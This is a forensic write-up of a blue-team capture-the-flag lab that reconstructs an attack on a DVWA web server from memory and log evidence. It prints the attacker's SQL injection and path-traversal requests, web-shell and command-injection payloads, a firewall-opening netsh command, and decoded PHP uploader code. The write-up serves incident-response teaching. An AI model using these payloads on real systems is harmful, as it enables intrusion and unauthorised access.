

# Injector Lab

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/injector/](https://cyberdefenders.org/blueteam-ctf-challenges/injector/)

Suggested tools: R-Studio, FTK Imager, Autopsy, Volatility, Registry Explorer, `regripper`

Tactics: Initial Access, Execution, , Persistence, Privilege Escalation, Defense Impairment, Discovery

# Scenario

A company’s web server has been breached through their website. Our team arrived just in time to take a forensic image of the running system and its memory for further analysis.

As a soc analyst, you are tasked with mounting the image to determine how the system was compromised and the actions/commands the attacker executed.

# Questions

Q1- What is the computer's name?

Answer: `WIN-L0ZZQ76PMUF`

Reason: The compromised web server's hostname was recovered from live memory as `WIN-L0ZZQ76PMUF`, extracted via Volatility 2's `printkey` plugin against the `ControlSet001\Control\ComputerName\ActiveComputerName` registry key within the `SYSTEM` hive resident in the memory image, with the key last updated at `2015-08-23 20:27:29 UTC`, using profile `Win2008SP1x86` as confirmed by `imageinfo`'s `KDBG` resolution at `0x81716c90`.

```bash
# Verifying the memory dump and mounting the raw image
$ python2 /opt/volatility2/vol.py -f memdump.mem imageinfo                                                             
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : VistaSP1x86, Win2008SP1x86, Win2008SP2x86, VistaSP2x86
                     AS Layer1 : IA32PagedMemoryPae (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/kali/ctf_stuff/defsec/temp/memdump.mem)
                      PAE type : PAE
                           DTB : 0x122000L
                          KDBG : 0x81716c90L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0x81717800L
             KUSER_SHARED_DATA : 0xffdf0000L
           Image date and time : 2015-09-03 10:04:05 UTC+0000
     Image local date and time : 2015-09-03 03:04:05 -0700
     
# Attach the disk image to a loop device in read-only mode with partition scanning enabled
$ sudo losetup -Pf --read-only /home/kali/ctf_stuff/defsec/temp/s4a-challenge4

# Verify the assigned loop device
$ losetup -a

# List partitions detected on the loop device
$ ls /dev/loop0p*

# Mount a specific partition as read-only
$ sudo mkdir /mnt/tmp_mount
$ sudo mount -o ro /dev/loop0p1 /mnt/tmp_mount
     
# Check the relevant registry key
$ python2 /opt/volatility2/vol.py -f memdump.mem --profile=Win2008SP1x86 printkey -K "ControlSet001\Control\ComputerName\ActiveComputerName"     
Volatility Foundation Volatility Framework 2.6.1
Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \REGISTRY\MACHINE\SYSTEM
Key name: ActiveComputerName (V)
Last updated: 2015-08-23 20:27:29 UTC+0000

Subkeys:

Values:
REG_SZ        ComputerName    : (V) WIN-L0ZZQ76PMUF
```

Q2- What is the Timezone of the compromised machine? Format: UTC+0 (no-space)

Answer: UTC-7

Reason: The compromised machine's timezone was identified as `UTC-7` (Pacific Daylight Time, given the active `-420` minute bias), recovered via Volatility 2's `printkey` plugin against the `ControlSet001\Control\TimeZoneInformation` registry key within the `SYSTEM` hive, with the key last updated at `2015-08-24 07:50:29 UTC`, showing `TimeZoneKeyName: Pacific Standard Time` and `ActiveTimeBias: 420` (7 hours), consistent with the `imageinfo` output's local time offset of `-07:00`.

```bash
$ python2 /opt/volatility2/vol.py -f memdump.mem --profile=Win2008SP1x86 printkey -K "ControlSet001\Control\TimeZoneInformation"                    
Volatility Foundation Volatility Framework 2.6.1
Legend: (S) = Stable   (V) = Volatile

----------------------------
Registry: \REGISTRY\MACHINE\SYSTEM
Key name: TimeZoneInformation (S)
Last updated: 2015-08-24 07:50:29 UTC+0000

Subkeys:

Values:
REG_DWORD     Bias            : (S) 480
REG_SZ        StandardName    : (S) @tzres.dll,-212
REG_DWORD     StandardBias    : (S) 0
REG_BINARY    StandardStart   : (S) 
0x00000000  00 00 0b 00 01 00 02 00 00 00 00 00 00 00 00 00   ................
REG_SZ        DaylightName    : (S) @tzres.dll,-211
REG_DWORD     DaylightBias    : (S) 4294967236
REG_BINARY    DaylightStart   : (S) 
0x00000000  00 00 03 00 02 00 02 00 00 00 00 00 00 00 00 00   ................
REG_SZ        TimeZoneKeyName : (S) Pacific Standard Time
REG_DWORD     DynamicDaylightTimeDisabled : (S) 0
REG_DWORD     ActiveTimeBias  : (S) 420
```



Q3- What was the first vulnerability the attacker was able to exploit?

Answer: XSS

Reason: The first vulnerability exploited against the compromised web server was reflected Cross-Site Scripting (`XSS`), evidenced by a request to DVWA's `xss_r` (reflected XSS) module logged in `xampp/apache/logs/access.log` at `2015-09-01 23:03:19 -0700` (`2015-09-02 06:03:19 UTC`), with the request `GET /dvwa/vulnerabilities/xss_r/` returning HTTP `200` and referencing `http://localhost/dvwa/vulnerabilities/upload/` as the referrer, indicating the attacker was navigating DVWA's vulnerability modules from the local host (`::1`).

```bash
$ grep -i xss ./xampp/apache/logs/access.log | head -n 1
::1 - - [01/Sep/2015:23:03:19 -0700] "GET /dvwa/vulnerabilities/xss_r/ HTTP/1.1" 200 4454 "http://localhost/dvwa/vulnerabilities/upload/" "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; SLCC1; .NET CLR 2.0.50727; .NET CLR 3.0.04506)"
```

Q4- What is the OS build number?

Answer: `6001`

Reason: The compromised host's operating system build number was `6001`, recovered via Volatility 2's `printkey` plugin against the `Microsoft\Windows NT\CurrentVersion` registry key within the `SOFTWARE` hive resident in memory, showing `CurrentBuildNumber: 6001` and `BuildLabEx: 6001.18000.x86fre.longhorn_rtm.080118-1840`, consistent with the `Win2008SP1x86` profile confirmed earlier and matching Windows Server 2008 / Vista SP1's known build lineage (`longhorn_rtm`).

```bash
$ python2 /opt/volatility2/vol.py -f memdump.mem --profile=Win2008SP1x86 printkey -K "Microsoft\Windows NT\CurrentVersion" | grep -ia build
Volatility Foundation Volatility Framework 2.6.1
REG_SZ        CurrentBuildNumber : (S) 6001
REG_SZ        CurrentBuild    : (S) 6001
REG_SZ        BuildLab        : (S) 6001.longhorn_rtm.080118-1840
REG_SZ        BuildLabEx      : (S) 6001.18000.x86fre.longhorn_rtm.080118-1840
REG_SZ        BuildGUID       : (S) 28f47544-6618-4bc4-a11e-ed7d7d66e144
REG_SZ        CSDBuildNumber  : (S) 1616
```

Q5- How many users are on the compromised machine?

Answer: 4

Reason: Four local user accounts were identified on the compromised machine's `SAM` registry hive at `Windows\System32\config\SAM`, parsed via RegRipper's `samparse` plugin: `Administrator` [RID `500`], `Guest` [RID `501`], `user1` [RID `1005`], and `hacker` [RID `1006`] — the presence of a non-default `hacker` account (RID `1006`) alongside `user1` suggests attacker-created or attacker-relevant accounts beyond the standard Windows built-ins.

```bash
$ regripper -r ./Windows/System32/config/SAM -p samparse | grep -i username
Launching samparse v.20220921
Username        : Administrator [500]
Username        : Guest [501]
Username        : user1 [1005]
Username        : hacker [1006]
```

Q6- What is the webserver package installed on the machine?

Answer: XAMPP

Reason: The web server package installed on the compromised machine was `XAMPP`, evidenced both by the running process list at capture time (`pslist` showing `xampp-control.exe` PID `2768` spawning `httpd.exe` PID `2796`, `mysqld.exe` PID `2804`, and `FileZillaServer.exe` PID `2856`, all starting around `2015-08-23 10:32:17 UTC`) and by the Apache log path referenced in the Q3 evidence, `xampp/apache/logs/access.log`, confirming the Apache/MySQL/FileZilla/PHP bundle distributed under the XAMPP name.

Q7- What is the name of the vulnerable web app installed on the webserver?

Answer: DVWA

Reason: The vulnerable web application installed on the compromised web server was `DVWA` (Damn Vulnerable Web Application), evidenced by the Apache access log entries referencing the `/dvwa/vulnerabilities/xss_r/` and `/dvwa/vulnerabilities/upload/` paths served from the XAMPP `htdocs` directory, as observed in the Q3 evidence at `2015-09-01 23:03:19 -0700` (`2015-09-02 06:03:19 UTC`), confirming DVWA was hosted and actively probed for its intentionally vulnerable modules.

Q8- What is the user agent used in the HTTP requests sent by the SQL injection attack tool?

Answer: `sqlmap/1.0-dev-nongit-20150902`

Reason: The SQL injection attack tool used against the DVWA `sqli` module identified itself via the User-Agent string `sqlmap/1.0-dev-nongit-20150902 (<http://sqlmap.org>)`, evidenced by requests from source IP `192.168.56.102` beginning at `2015-09-02 04:15:40 -0700` (`2015-09-02 11:15:40 UTC`) targeting `/dvwa/vulnerabilities/sqli/?id=2&Submit=Submit`, followed by a rapid succession of automated payloads including a `UNION ALL SELECT` enumeration attempt against `information_schema.tables` and repeated Boolean/error-based injection probes with randomized quote and parenthesis sequences, consistent with `sqlmap`'s automated testing behavior.

```bash
$ grep -i sqlmap ./xampp/apache/logs/access.log | head -n 10
192.168.56.102 - - [02/Sep/2015:04:15:40 -0700] "GET /dvwa/vulnerabilities/sqli/?id=2&Submit=Submit HTTP/1.1" 302 1 "-" "sqlmap/1.0-dev-nongit-20150902 (http://sqlmap.org)"
192.168.56.102 - - [02/Sep/2015:04:16:32 -0700] "GET /dvwa/login.php HTTP/1.1" 200 1225 "-" "sqlmap/1.0-dev-nongit-20150902 (http://sqlmap.org)"
192.168.56.102 - - [02/Sep/2015:04:16:33 -0700] "GET /dvwa/vulnerabilities/sqli/?id=2&Submit=Submit&HQMO%3D3319%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2C2%2C3%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%20..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1" 302 1 "-" "sqlmap/1.0-dev-nongit-20150902 (http://sqlmap.org)"
192.168.56.102 - - [02/Sep/2015:04:16:33 -0700] "GET /dvwa/login.php HTTP/1.1" 200 1225 "-" "sqlmap/1.0-dev-nongit-20150902 (http://sqlmap.org)"
192.168.56.102 - - [02/Sep/2015:04:16:33 -0700] "GET /dvwa/vulnerabilities/sqli/?id=2&Submit=Submit HTTP/1.1" 302 1 "-" "sqlmap/1.0-dev-nongit-20150902 (http://sqlmap.org)"
192.168.56.102 - - [02/Sep/2015:04:16:33 -0700] "GET /dvwa/login.php HTTP/1.1" 200 1225 "-" "sqlmap/1.0-dev-nongit-20150902 (http://sqlmap.org)"
192.168.56.102 - - [02/Sep/2015:04:16:33 -0700] "GET /dvwa/vulnerabilities/sqli/?id=2%2C%29%28%28%27%28%22%2C%22%27&Submit=Submit HTTP/1.1" 302 1 "-" "sqlmap/1.0-dev-nongit-20150902 (http://sqlmap.org)"
192.168.56.102 - - [02/Sep/2015:04:16:33 -0700] "GET /dvwa/login.php HTTP/1.1" 200 1225 "-" "sqlmap/1.0-dev-nongit-20150902 (http://sqlmap.org)"
192.168.56.102 - - [02/Sep/2015:04:16:33 -0700] "GET /dvwa/vulnerabilities/sqli/?id=2%27IcSE%3C%27%22%3ExroD&Submit=Submit HTTP/1.1" 302 1 "-" "sqlmap/1.0-dev-nongit-20150902 (http://sqlmap.org)"
192.168.56.102 - - [02/Sep/2015:04:16:33 -0700] "GET /dvwa/login.php HTTP/1.1" 200 1225 "-" "sqlmap/1.0-dev-nongit-20150902 (http://sqlmap.org)"
```

Q9- The attacker read multiple files through LFI vulnerability. One of them is related to network configuration. What is the filename?

Answer: `hosts`

Reason: The attacker exploited a Local File Inclusion (`LFI`) vulnerability in DVWA's `fi` (file inclusion) module to read the network configuration file `hosts`, evidenced by a directory-traversal request from `192.168.56.102` at `2015-09-02 02:31:16 -0700` (`2015-09-02 09:31:16 UTC`) targeting `/dvwa/vulnerabilities/fi/?page=../../../../../../windows/system32/drivers/etc/hosts`, which returned HTTP `200` with a `4397`-byte response, using a Firefox/Iceweasel `38.0` user agent distinct from the earlier `sqlmap` traffic.

```bash
$ grep -i "192.168.56.102" ./xampp/apache/logs/access.log | grep "\.\.\/"
192.168.56.102 - - [02/Sep/2015:02:31:16 -0700] "GET /dvwa/vulnerabilities/fi/?page=../../../../../../windows/system32/drivers/etc/hosts HTTP/1.1" 200 4397 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.2.0"
```

Q10- The attacker tried to update some firewall rules using netsh command. Provide the value of the type parameter in the executed command?

Answer: `remotedesktop`

Reason: The attacker attempted to modify Windows Firewall rules using the `netsh firewall set service` command with the `type` parameter set to `remotedesktop`, recovered via Volatility 2's `cmdscan` plugin against the `csrss.exe` command history buffers, showing an iterative attempt sequence from initial help queries (`netsh /?`, `netsh firewall /?`) through progressively refined commands ending in `netsh firewall set service type=remotedesktop mode=enable scope=subnet` (repeated at offsets `0xe91380`, `0xe91970`, and `0x5a17b58`), indicating the attacker was enabling Remote Desktop access through the firewall to establish or maintain remote connectivity.

```bash
$ python2 /opt/volatility2/vol.py -f memdump.mem --profile=Win2008SP1x86 cmdscan | grep netsh
Volatility Foundation Volatility Framework 2.6.1
Cmd #11 @ 0xe911b0: netsh /?
Cmd #12 @ 0xe907e8: netsh firewall /?
Cmd #13 @ 0xe91218: netsh firewall set service type = remotedesktop /?
Cmd #14 @ 0xe91288: netsh firewall set service type = remotedesktop enable
Cmd #15 @ 0xe91300: netsh firewall set service type=remotedesktop mode=enable
Cmd #16 @ 0xe91380: netsh firewall set service type=remotedesktop mode=enable scope=subnet
Cmd #0 @ 0xe91970: netsh fireall set service type=remotedesktop mode=enable scope=subnet
Cmd #1 @ 0x5a17b58: netsh firewall set service type=remotedesktop mode=enable scope=subnet
```

Q11- How many users were added by the attacker?

Answer: 2

Reason: The attacker added two user accounts to the compromised machine, `user1` (RID `1005`) and `hacker` (RID `1006`), evidenced by RegRipper's `samparse` output against the `SAM` registry hive showing these two entries beyond the default `Administrator` (RID `500`) and `Guest` (RID `501`) accounts, both assigned RIDs in the non-reserved range indicating post-installation creation.

Q12- When did the attacker create the first user?

Answer: `2015-09-02 09:05:06 UTC`

Reason: The attacker created the first user account, `user1` (SID `S-1-5-21-3848053756-3249532031-1848221756-1005`, RID `1005`), at `2015-09-02 09:05:06 UTC`, evidenced by RegRipper's `samparse` output against the `SAM` registry hive showing the `Account Created` timestamp for a `Custom Limited Acct` type entry, indicating a non-default, attacker-provisioned account distinct from a built-in Windows account.

```bash
$ regripper -r ./Windows/System32/config/SAM -p samparse | grep -i user1 -A 5   
Launching samparse v.20220921
Username        : user1 [1005]
SID             : S-1-5-21-3848053756-3249532031-1848221756-1005
Full Name       : 
User Comment    : 
Account Type    : Custom Limited Acct
Account Created : Wed Sep  2 09:05:06 2015 Z
```

Q13- What is the NT hash of the user's password set by the attacker?

Answer: `817875ce4794a9262159186413772644`

Reason: The NT hash of the password set on the attacker-created `user1` account was `817875ce4794a9262159186413772644`, recovered via Volatility 2's `hashdump` plugin, which parses the `SAM` and `SYSTEM` hives resident in memory to extract LM/NT credential hashes, with the LM hash (`aad3b435b51404eeaad3b435b51404ee`) matching the empty/blank-password constant, indicating LM hashing was disabled or the hash is not usable, while the NT hash is the crackable value for this account (RID `1005`).

```bash
$ python2 /opt/volatility2/vol.py -f memdump.mem --profile=Win2008SP1x86 hashdump | grep user1
Volatility Foundation Volatility Framework 2.6.1
user1:1005:aad3b435b51404eeaad3b435b51404ee:817875ce4794a9262159186413772644:::
```

Q14- What is The MITRE ID corresponding to the technique used to keep persistence?

Answer: T1136.001

Reason: The persistence technique employed by the attacker maps to MITRE ATT&CK technique `T1136.001` (Create Account: Local Account), evidenced by the creation of the local user accounts `user1` (RID `1005`, created `2015-09-02 09:05:06 UTC`) and `hacker` (RID `1006`) recovered from the `SAM` registry hive via `samparse`, providing the attacker a standing local credential for regaining access independent of the original web application compromise.

Q15- The attacker uploaded a simple command shell through file upload vulnerability. Provide the name of the URL parameter used to execute commands?

Answer: `cmd`

Reason: The attacker uploaded a web shell, `phpshell.php`, via DVWA's unrestricted file upload vulnerability, and executed operating system commands through the URL parameter `cmd`, evidenced by requests from `192.168.56.102` beginning at `2015-09-03 00:16:13 -0700` (`2015-09-03 07:16:13 UTC`) targeting `/dvwa/hackable/uploads/phpshell.php?cmd=dir`, followed by directory listing (`dir C:\`), directory creation (`mkdir abc`), and repeat `dir` commands, all returning HTTP `200` and confirming successful remote command execution.

```bash
$ grep -i "192.168.56.102" ./xampp/apache/logs/access.log | grep cmd | grep upload
192.168.56.102 - - [03/Sep/2015:00:16:13 -0700] "GET /dvwa/hackable/uploads/phpshell.php?cmd=dir HTTP/1.1" 200 419 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.2.0"
192.168.56.102 - - [03/Sep/2015:00:17:49 -0700] "GET /dvwa/hackable/uploads/phpshell.php?cmd=dir%20C:\\ HTTP/1.1" 200 1934 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.2.0"
192.168.56.102 - - [03/Sep/2015:00:17:58 -0700] "GET /dvwa/hackable/uploads/phpshell.php?cmd=mkdir%20abc HTTP/1.1" 200 - "-" "Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.2.0"
192.168.56.102 - - [03/Sep/2015:00:18:02 -0700] "GET /dvwa/hackable/uploads/phpshell.php?cmd=dir HTTP/1.1" 200 463 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.2.0"
```

Q16- One of the uploaded files by the attacker has an MD5 that starts with `559411`. Provide the full hash.

Answer: `5594112b531660654429f8639322218b`

Reason: An additional uploaded web shell, `webshell.php`, was located at `./xampp/htdocs/DVWA/webshell.php` with an MD5 hash of `5594112b531660654429f8639322218b`, confirmed via `md5sum` against the DVWA web root directory, representing a second attacker-planted file distinct from `phpshell.php` identified in the Q15 evidence, indicating multiple persistence/backdoor artifacts were dropped through the file upload vulnerability.

```bash
$ md5sum ./xampp/htdocs/DVWA/* 2>/dev/null | grep 559411
5594112b531660654429f8639322218b  ./xampp/htdocs/DVWA/webshell.php
```

Q17- The attacker used Command Injection to add user `hacker` to the "Remote Desktop Users" Group. Provide the IP address that was part of the executed command?

Answer: `192.168.56.102`

Reason: The attacker exploited a Command Injection vulnerability via the `ip` parameter to add the `hacker` account to the "Remote Desktop Users" group, evidenced by the injected payload `ip=192.168.56.102+%26%26+net+localgroup+%22Remote+Desktop+Users%22+hacker+%2Fadd&submit=submit` recovered from a memory dump of `xampp-control.exe` (PID `2768`, flagged by `malfind` at address `0x280000`), where the base IP value `192.168.56.102` was chained with a URL-encoded `&&` operator to append the `net localgroup "Remote Desktop Users" hacker /add` command, confirming both the injection vector and the source IP used in the exploited request.

```bash
$ python2 /opt/volatility2/vol.py -f memdump.mem --profile=Win2008SP1x86 malfind | grep -i pid
Volatility Foundation Volatility Framework 2.6.1
Process: svchost.exe Pid: 1024 Address: 0xe60000
Process: svchost.exe Pid: 1108 Address: 0x6c0000
Process: explorer.exe Pid: 816 Address: 0x9d0000
Process: explorer.exe Pid: 816 Address: 0x1f10000
Process: xampp-control.e Pid: 2768 Address: 0x280000
Process: FTK Imager.exe Pid: 2120 Address: 0x4f40000

$ python2 /opt/volatility2/vol.py -f memdump.mem --profile=Win2008SP1x86 memdump -p 2768 -D . 
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
Writing xampp-control.e [  2768] to 2768.dmp

$ strings 2768.dmp | grep 'hacker' -B 5 -A 5 | grep ip
ip=192.168.56.102+%26%26+net+localgroup+%22Remote+Desktop+Users%22+hacker+%2Fadd&submit=submit$
```

Q18- The attacker dropped a shellcode through SQLi vulnerability. The shellcode was checking for a specific version of PHP. Provide the PHP version number?

Answer: `4.1.0`

Reason: The attacker used `sqlmap`'s `INTO OUTFILE` technique via the SQLi vulnerability to write a hex-encoded PHP file uploader shellcode (`tmpudvfh.php`) to `/xampp/htdocs/`, evidenced by the request at `2015-09-02 23:52:24 -0700` (`2015-09-03 06:52:24 UTC`) using `sqlmap/1.0-dev-nongit-20150902`, and decoding the hex-encoded payload with `xxd -r -p` revealed a PHP conditional check `if (phpversion()<'4.1.0')`, distinguishing legacy `$HTTP_POST_FILES` superglobal handling from the modern `$_FILES` superglobal used on PHP `4.1.0` and later, confirming the shellcode's version-compatibility check targeted PHP `4.1.0`.

```bash
$ grep -i "192.168.56.102" ./xampp/apache/logs/access.log | grep sqli | tail -n 1
192.168.56.102 - - [02/Sep/2015:23:52:24 -0700] "GET /dvwa/vulnerabilities/sqli/?id=2%27%20LIMIT%200%2C1%20INTO%20OUTFILE%20%27%2Fxampp%2Fhtdocs%2Ftmpudvfh.php%27%20LINES%20TERMINATED%20BY%200x3c3f7068700a69662028697373657428245f524551554553545b2275706c6f6164225d29297b246469723d245f524551554553545b2275706c6f6164446972225d3b6966202870687076657273696f6e28293c27342e312e3027297b2466696c653d24485454505f504f53545f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c652824485454505f504f53545f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d656c73657b2466696c653d245f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c6528245f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d4063686d6f6428246469722e222f222e2466696c652c30373535293b6563686f202246696c652075706c6f61646564223b7d656c7365207b6563686f20223c666f726d20616374696f6e3d222e245f5345525645525b225048505f53454c46225d2e22206d6574686f643d504f535420656e63747970653d6d756c7469706172742f666f726d2d646174613e3c696e70757420747970653d68696464656e206e616d653d4d41585f46494c455f53495a452076616c75653d313030303030303030303e3c623e73716c6d61702066696c652075706c6f616465723c2f623e3c62723e3c696e707574206e616d653d66696c6520747970653d66696c653e3c62723e746f206469726563746f72793a203c696e70757420747970653d74657874206e616d653d75706c6f61644469722076616c75653d5c5c78616d70705c5c6874646f63735c5c3e203c696e70757420747970653d7375626d6974206e616d653d75706c6f61642076616c75653d75706c6f61643e3c2f666f726d3e223b7d3f3e0a--%20--%20&Submit=Submit HTTP/1.1" 200 4893 "-" "sqlmap/1.0-dev-nongit-20150902 (http://sqlmap.org)"

$ echo -n '3c3f7068700a69662028697373657428245f524551554553545b2275706c6f6164225d29297b246469723d245f524551554553545b2275706c6f6164446972225d3b6966202870687076657273696f6e28293c27342e312e3027297b2466696c653d24485454505f504f53545f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c652824485454505f504f53545f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d656c73657b2466696c653d245f46494c45535b2266696c65225d5b226e616d65225d3b406d6f76655f75706c6f616465645f66696c6528245f46494c45535b2266696c65225d5b22746d705f6e616d65225d2c246469722e222f222e2466696c6529206f722064696528293b7d4063686d6f6428246469722e222f222e2466696c652c30373535293b6563686f202246696c652075706c6f61646564223b7d656c7365207b6563686f20223c666f726d20616374696f6e3d222e245f5345525645525b225048505f53454c46225d2e22206d6574686f643d504f535420656e63747970653d6d756c7469706172742f666f726d2d646174613e3c696e70757420747970653d68696464656e206e616d653d4d41585f46494c455f53495a452076616c75653d313030303030303030303e3c623e73716c6d61702066696c652075706c6f616465723c2f623e3c62723e3c696e707574206e616d653d66696c6520747970653d66696c653e3c62723e746f206469726563746f72793a203c696e70757420747970653d74657874206e616d653d75706c6f61644469722076616c75653d5c5c78616d70705c5c6874646f63735c5c3e203c696e70757420747970653d7375626d6974206e616d653d75706c6f61642076616c75653d75706c6f61643e3c2f666f726d3e223b7d3f3e0a' | xxd -r -p     
<?php
if (isset($_REQUEST["upload"])){$dir=$_REQUEST["uploadDir"];if (phpversion()<'4.1.0'){$file=$HTTP_POST_FILES["file"]["name"];@move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"],$dir."/".$file) or die();}else{$file=$_FILES["file"]["name"];@move_uploaded_file($_FILES["file"]["tmp_name"],$dir."/".$file) or die();}@chmod($dir."/".$file,0755);echo "File uploaded";}else {echo "<form action=".$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=\\xampp\\htdocs\\> <input type=submit name=upload value=upload></form>";}?>
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2015-09-02 06:03:19 | Discovery | Attacker probed DVWA's reflected XSS module via `GET /dvwa/vulnerabilities/xss_r/` from `::1` (localhost) | T1190 |
| 2015-09-02 09:05:06 | Persistence | Local account `user1` created (RID `1005`) | T1136.001 |
| 2015-09-02 09:31:16 | Discovery | LFI in DVWA's `fi` module used to read `windows/system32/drivers/etc/hosts` via `../` directory traversal from `192[.]168[.]56[.]102` | T1190, T1083 |
| 2015-09-02 11:15:40 | Initial Access | `sqlmap` automated SQL injection campaign launched against DVWA's `sqli` module (`id` parameter) from `192[.]168[.]56[.]102` | T1190 |
| 2015-09-03 06:52:24 | Execution | `sqlmap` `INTO OUTFILE` technique used to write hex-encoded PHP file-uploader shellcode `tmpudvfh.php`, containing a `phpversion()<'4.1.0'` compatibility check | T1505.003 |
| 2015-09-03 07:16:13 | Execution | Web shell `phpshell.php` accessed with `cmd` parameter for remote command execution (`dir`, `mkdir abc`) from `192[.]168[.]56[.]102` | T1505.003, T1059.003 |
| N/A | Persistence | Second web shell `webshell.php` (MD5 `5594112b531660654429f8639322218b`) found dropped in DVWA web root | T1505.003 |
| N/A | Persistence | Command Injection via `ip` parameter executed `net localgroup "Remote Desktop Users" hacker /add` from `192[.]168[.]56[.]102` | T1098, T1190 |
| N/A | Defense Evasion | `netsh firewall set service type=remotedesktop mode=enable scope=subnet` executed to allow RDP through the firewall | T1562.004 |

## Attack Tree

```bash
[DVWA on XAMPP — WIN-L0ZZQ76PMUF]  ← 192[.]168[.]56[.]102 → victim webserver
    └── public-facing DVWA vulnerable web app
        ├── [Stage 1 — Recon / Vulnerability Discovery]
        │   ├── reflected XSS probe `GET /dvwa/vulnerabilities/xss_r/`  ← from ::1 (localhost), 2015-09-02 06:03:19 UTC
        │   └── LFI traversal → `windows/system32/drivers/etc/hosts`  ← 2015-09-02 09:31:16 UTC
        ├── [Stage 2 — Initial Access via SQL Injection]
        │   └── `sqlmap` campaign against `/dvwa/vulnerabilities/sqli/`  ← 2015-09-02 11:15:40 UTC
        │       └── `INTO OUTFILE` write of PHP uploader shellcode → `tmpudvfh.php`  ← 2015-09-03 06:52:24 UTC
        ├── [Stage 3 — Execution via Web Shell]
        │   ├── `phpshell.php` uploaded, `cmd` param RCE (`dir`, `mkdir abc`)  ← 2015-09-03 07:16:13 UTC
        │   └── second web shell `webshell.php` dropped (MD5 `5594112b531660654429f8639322218b`)
        └── [Stage 4 — Persistence & Defense Evasion]
            ├── local account `user1` created (RID 1005)  ← 2015-09-02 09:05:06 UTC
            ├── local account `hacker` created (RID 1006)
            ├── Command Injection via `ip` param → `net localgroup "Remote Desktop Users" hacker /add`
            └── `netsh firewall set service type=remotedesktop mode=enable scope=subnet`  ← RDP allowed through firewall
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Host Indicators | Hostname | `WIN-L0ZZQ76PMUF` |
|  | OS Build | `6001` (Windows Server 2008 SP1 / Vista SP1) |
|  | Timezone | `UTC-7` (Pacific Standard Time) |
| Web Stack | Server package | XAMPP (`httpd.exe`, `mysqld.exe`, `FileZillaServer.exe`) |
|  | Vulnerable app | DVWA (Damn Vulnerable Web Application) |
| Network | Attacker IP | `192[.]168[.]56[.]102` |
|  | SQLi tool User-Agent | `sqlmap/1.0-dev-nongit-20150902 (<http://sqlmap.org>)` |
| Exploitation | Vulnerability 1 | Reflected XSS (`/dvwa/vulnerabilities/xss_r/`) |
|  | Vulnerability 2 | LFI (`/dvwa/vulnerabilities/fi/?page=../../../../../../windows/system32/drivers/etc/hosts`) |
|  | Vulnerability 3 | SQL Injection (`/dvwa/vulnerabilities/sqli/`) |
|  | Vulnerability 4 | Unrestricted File Upload → Command Injection (`ip` parameter) |
| Dropped File | Web shell 1 | `phpshell.php` (`cmd` parameter RCE) |
|  | Web shell 2 | `webshell.php`, MD5 `5594112b531660654429f8639322218b` |
|  | SQLi-dropped uploader | `tmpudvfh.php` (checks `phpversion()<'4.1.0'`) |
| Persistence | Local account 1 | `user1` (RID `1005`), created `2015-09-02 09:05:06 UTC` |
|  | Local account 2 | `hacker` (RID `1006`) |
|  | NT hash | `817875ce4794a9262159186413772644` (`user1`) |
|  | Group modification | `hacker` added to "Remote Desktop Users" |
| Defense Evasion | Firewall change | `netsh firewall set service type=remotedesktop mode=enable scope=subnet` |

# Lab Insights

- **A single vulnerable app can chain into a full compromise without any single "critical" bug.** No individual DVWA vulnerability here was a remote code execution flaw by itself — XSS, LFI, SQLi, and file upload are each commonly rated low-to-medium severity in isolation. Chained together, they gave the attacker file read, database enumeration, arbitrary file write, and ultimately command execution, illustrating why vulnerability chaining matters more than any single CVSS score.
- **Automated tooling leaves a very distinct fingerprint.** The default `sqlmap` User-Agent string and its characteristic payload patterns (randomized quote/parenthesis fuzzing, `UNION ALL SELECT` enumeration against `information_schema`) made the SQLi campaign trivially attributable to a specific tool rather than requiring payload-by-payload manual analysis — a reminder that attacker OPSEC failures (not changing default tool signatures) are often the easiest win in log analysis.
- **Persistence and access-broadening often ride on the same vulnerability that got initial access.** Rather than dropping a separate malware implant, the attacker reused the same command-execution primitives (web shell, command injection) to create local accounts, join a user to the "Remote Desktop Users" group, and punch a firewall hole for RDP — showing how a single web app flaw can be leveraged repeatedly for different post-exploitation goals instead of pivoting to new tooling.
